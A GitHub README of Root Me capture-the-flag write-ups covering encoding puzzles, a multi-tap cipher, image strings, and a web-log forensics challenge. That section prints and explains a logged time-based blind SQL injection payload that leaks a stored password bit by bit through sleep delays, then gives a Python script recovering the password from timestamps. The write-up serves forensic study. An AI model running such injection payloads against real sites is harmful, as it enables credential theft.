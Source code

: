 # Root Me
**DISCLAIMER**: Challenges will be in either French or English. I'd like to be able to practice French, especially in the infosec/cybersec field.

There's always Google Translate, but I might translate portions anyway.

## Encodage - ASCII:
https://www.root-me.org/fr/Challenges/Cryptanalyse/Encodage-ASCII

We're provided an associated resource to complete the challenge: ![image](https://user-images.githubusercontent.com/60375020/144296644-fdb7ac8c-6eea-481b-b202-cea9ce7c03f2.png)

Beginning the challenge, we're redirected to http://challenge01.root-me.org/cryptanalyse/ch8/ch8.txt and are provided the following string: 4C6520666C6167206465206365206368616C6C656E6765206573743A203261633337363438316165353436636436383964356239313237356433323465.

Now we  just have to use the table provided to decode the string.

<details>
  <summary> 📣 FLAG SPOILER WARNING 📣 </summary> 
  
  This is the solution to the challenge, valued at 5 points. You might have to finish the rest.... 😉
  Can't go giving the true flag, now can I?
 
Le flag de ce challenge est: [Really long string]
</details>

## Encodage - UU:
https://www.root-me.org/fr/Challenges/Cryptanalyse/Encodage-UU

We're provided a PDF titled 'EN - Encodings format.pdf': https://repository.root-me.org/Cryptographie/EN%20-%20Encodings%20format.pdf?_gl=1*bhowco*_ga*Mzg3ODQ3ODc2LjE2MzgyNDAxMDg.*_ga_SRYSKX09J7*MTYzODM3ODQyOC45LjEuMTYzODM4NDM4Ny4w. 

Beginning the challenge, we're redirected to http://challenge01.root-me.org/cryptanalyse/ch1/ch1.txt. On this website, it gives us the following:
```
_=_ 
_=_ Part 001 of 001 of file root-me_challenge_uudeview
_=_ 

begin 644 root-me_challenge_uudeview
B5F5R>2!S:6UP;&4@.RD*4$%34R`](%5,5%)!4TE-4$Q%"@``
`
end
```
This is where the PDF resource really comes in handy. Flipping through, we can see it really breaks down UU Encoding and provides useful tables.
<details>
  <summary> 📣 FLAG SPOILER WARNING 📣 </summary> 
  
  This is the solution to the challenge, valued at 5 points. You might have to tweak the final result just a little.... 😉
  Can't go giving the true flag, now can I?
  
```
Very simple ;)
PASS = [This should be the password] 
```

</details>

## Analyse de logs - attaque web:
https://www.root-me.org/fr/Challenges/Forensic/Analyse-de-logs-attaque-web
We're given the following hint: 'Énoncé - Notre site web semble avoir été attaqué, mais notre administrateur système ne comprend pas les logs du serveur web. Pouvez-vous retrouver les données qui ont été exfiltrées?'
<details>
  <summary> 🇬🇧 Translation 🇬🇧 </summary> 
'Statement - Our website appears to have been attacked, but our system administrator does not understand the web server logs. Can you find the data that was exfiltrated?'
</details>

Beginning the challenge (http://challenge01.root-me.org/forensic/ch13/ch13.txt), we're able to see an access log. Looking at the first request we can see that it's using base64:
```
192.168.1.23 - - [18/Jun/2015:12:12:54 +0200] "GET /admin/?action=membres&order=QVNDLChzZWxlY3QgKGNhc2UgZmllbGQoY29uY2F0KHN1YnN0cmluZyhiaW4oYXNjaWkoc3Vic3RyaW5nKHBhc3N3b3JkLDEsMSkpKSwxLDEpLHN1YnN0cmluZyhiaW4oYXNjaWkoc3Vic3RyaW5nKHBhc3N3b3JkLDEsMSkpKSwyLDEpKSxjb25jYXQoY2hhcig0OCksY2hhcig0OCkpLGNvbmNhdChjaGFyKDQ4KSxjaGFyKDQ5KSksY29uY2F0KGNoYXIoNDkpLGNoYXIoNDgpKSxjb25jYXQoY2hhcig0OSksY2hhcig0OSkpKXdoZW4gMSB0aGVuIFRSVUUgd2hlbiAyIHRoZW4gc2xlZXAoMikgd2hlbiAzIHRoZW4gc2xlZXAoNCkgd2hlbiA0IHRoZW4gc2xlZXAoNikgZW5kKSBmcm9tIG1lbWJyZXMgd2hlcmUgaWQ9MSk%3D HTTP/1.1" 200 1005 "-" "-"
```
```
QVNDLChzZWxlY3QgKGNhc2UgZmllbGQoY29uY2F0KHN1YnN0cmluZyhiaW4oYXNjaWkoc3Vic3RyaW5nKHBhc3N3b3JkLDEsMSkpKSwxLDEpLHN1YnN0cmluZyhiaW4oYXNjaWkoc3Vic3RyaW5nKHBhc3N3b3JkLDEsMSkpKSwyLDEpKSxjb25jYXQoY2hhcig0OCksY2hhcig0OCkpLGNvbmNhdChjaGFyKDQ4KSxjaGFyKDQ5KSksY29uY2F0KGNoYXIoNDkpLGNoYXIoNDgpKSxjb25jYXQoY2hhcig0OSksY2hhcig0OSkpKXdoZW4gMSB0aGVuIFRSVUUgd2hlbiAyIHRoZW4gc2xlZXAoMikgd2hlbiAzIHRoZW4gc2xlZXAoNCkgd2hlbiA0IHRoZW4gc2xlZXAoNikgZW5kKSBmcm9tIG1lbWJyZXMgd2hlcmUgaWQ9MSk%3D
```
URL decoded:
```
QVNDLChzZWxlY3QgKGNhc2UgZmllbGQoY29uY2F0KHN1YnN0cmluZyhiaW4oYXNjaWkoc3Vic3RyaW5nKHBhc3N3b3JkLDEsMSkpKSwxLDEpLHN1YnN0cmluZyhiaW4oYXNjaWkoc3Vic3RyaW5nKHBhc3N3b3JkLDEsMSkpKSwyLDEpKSxjb25jYXQoY2hhcig0OCksY2hhcig0OCkpLGNvbmNhdChjaGFyKDQ4KSxjaGFyKDQ5KSksY29uY2F0KGNoYXIoNDkpLGNoYXIoNDgpKSxjb25jYXQoY2hhcig0OSksY2hhcig0OSkpKXdoZW4gMSB0aGVuIFRSVUUgd2hlbiAyIHRoZW4gc2xlZXAoMikgd2hlbiAzIHRoZW4gc2xlZXAoNCkgd2hlbiA0IHRoZW4gc2xlZXAoNikgZW5kKSBmcm9tIG1lbWJyZXMgd2hlcmUgaWQ9MSk=
```
base64 decoded:
```
ASC,(SELECT (CASE FIELD(concat(SUBSTRING(bin(ascii(SUBSTRING(password,1,1))),1,1),SUBSTRING(bin(ascii(SUBSTRING(password,1,1))),2,1)),concat(CHAR(48),CHAR(48)),concat(CHAR(48),CHAR(49)),concat(CHAR(49),CHAR(48)),concat(CHAR(49),CHAR(49)))WHEN 1 THEN TRUE WHEN 2 THEN sleep(2) WHEN 3 THEN sleep(4) WHEN 4 THEN sleep(6) END) FROM membres WHERE id=1)
```
This looks interesting; the commas indicate a blind SQL attack. Expanding this, we can see it clearly:
```SQL
SELECT (
        CASE FIELD (
                concat(
                        SUBSTRING(
                                bin(ascii(SUBSTRING(password,1,1))), 1, 1
                        ),
                        SUBSTRING(
                                bin(ascii(SUBSTRING(password,1,1))), 2, 1
                        )
                ),
                concat(CHAR(48),CHAR(48)), 00
                concat(CHAR(48),CHAR(49)), 01
                concat(CHAR(49),CHAR(48)), 10
                concat(CHAR(49),CHAR(49))  11
        )
        WHEN 1 THEN TRUE
        WHEN 2 THEN sleep(2)
        WHEN 3 THEN sleep(4)
        WHEN 4 THEN sleep(6)
        END
) FROM membres WHERE id=1
```
From this we can see that the attacker checks what's in the password field, bit by bit. It takes the first character from the password, converts it to a bin representation, takes the first two bits and then compares to '00', '01', '10' and '11' strings. If it's '00', then nothing happens. If it's '01', the query waits 2 seconds, if it's '10', the query waits 4 seconds and if it's '11', the query waits 6 seconds.

There's a 4th query which checks only one bit, so it's not as long. After 7 bits are rounded up, it becomes ASCII code.
```SQL
[18/Jun/2015:12:13:06 ASC,(
        SELECT (
                CASE FIELD (
                        concat(
                                SUBSTRING(
                                        bin(ascii(SUBSTRING(password,1,1))),7,1
                                )
                        ),
                        CHAR(48), 0
                        CHAR(49)  1
                )
                WHEN 1 THEN sleep(2)
                WHEN 2 THEN sleep(4)
        END) FROM membres WHERE id=1)

```
The following code, written in Python, is what I used to find the flag.
```python
"""
Aliyah Alexis Millán
29 November 2021
Root Me
Logs analysis - Web attack
"""

"""
Provided access log: http://challenge01.root-me.org/forensic/ch13/ch13.txt
This is the log of a blind sql injection attack, the attacker executes multiple queries separated by commas. 
"""
from datetime import datetime

f = open('D:\School Fall 2021\Cyber\RootMe\ch13.txt', 'r')

def get_date(line):
        dateField = line[3]
        date = dateField[1:len(dateField)]
        return datetime.strptime(date, '%d/%b/%Y:%H:%M:%S')
prev_date = False
counter = 0
result = ''
letters = []
 
for line in f:
    if len(line):
        data = line.split(' ')
 
        if prev_date is not False:
            delta = (get_date(data) - prev_date).seconds
            counter += 1
 
            # Check the last bit every 4th request 
            if counter % 4:
                if delta == 0:
                    result += '00'
                elif delta == 2:
                    result += '01'
                elif delta == 4:
                    result += '10'
                elif delta == 6:
                    result += '11'
            else:
                if delta == 2:
                    result += '0'
                elif delta == 4:
                    result += '1'
                else:
                    # If there's no last bit found
                    pass
                letters.append(result)
                result = ''
        prev_date = get_date(data)
f.close()
pwd = ''
for letter in letters:
    pwd += chr(int(letter, 2))
print(pwd)
#Flag is printed.
```
## Steganomobile: 
https://www.root-me.org/en/Challenges/Steganography/Steganomobile

Before beginning the challenge, we're given a hint: 'After extraction of mobile data, the searcher, investigator have get this sequence of numbers. Maybe a phone number?'

Starting the challenge, we're redirected to (http://challenge01.root-me.org/steganographie/ch6/ch6.txt). 

From there, we can see we're given a string of numbers: 222-33-555-555-7-44-666-66-33.

The lets us know that we're looking at phone-related information and should be looking into mobile-type ciphers.
The first cipher that immediately pops into mind is the Multi-tap Phone (SMS). 
We can easily look for a Multi-tap decoder online. The first one I'm able to find is https://www.dcode.fr/multitap-abc-cipher.

All I have to do is copy and paste the string of characters into the 'MULTI-TAP MOBILE PHONE CIPHERTEXT' section, and it gives you the password on the left side of the website, under 'Results'.

![image](https://user-images.githubusercontent.com/60375020/144178572-d1b3371a-7159-432b-83d9-db4350cd0ba8.png)

<details>
  <summary> 📣 FLAG SPOILER WARNING 📣 </summary> 
  
  This is the solution to the challenge, valued at 10 points. You might have to tweak the final result just a little.... 😉
  Can't go giving the true flag, now can I?
 
![image](https://user-images.githubusercontent.com/60375020/144179099-6c5c4c75-d8d3-4340-848d-826cdae62c01.png)
</details>

## Squared
Starting the challenge, we're given the following image:

![image](https://user-images.githubusercontent.com/60375020/144519591-0b4c2c05-e772-4890-8f0e-47e6f875c265.png)

I use the strings command to look at the contents and to extract text from the picture.
```
# strings squared.jpg
```
So we find the flag at the end of file:

<details>
  <summary> 📣 FLAG SPOILER WARNING 📣 </summary> 
  
  This is the solution to the challenge, valued at 5 points. You might have to tweak the final result just a little.... 😉
  Can't go giving the true flag, now can I?
  
  ![image](https://user-images.githubusercontent.com/60375020/144519804-cdf42ec0-f450-42e2-a4ef-fc7c02d0e92a.png)
</details>


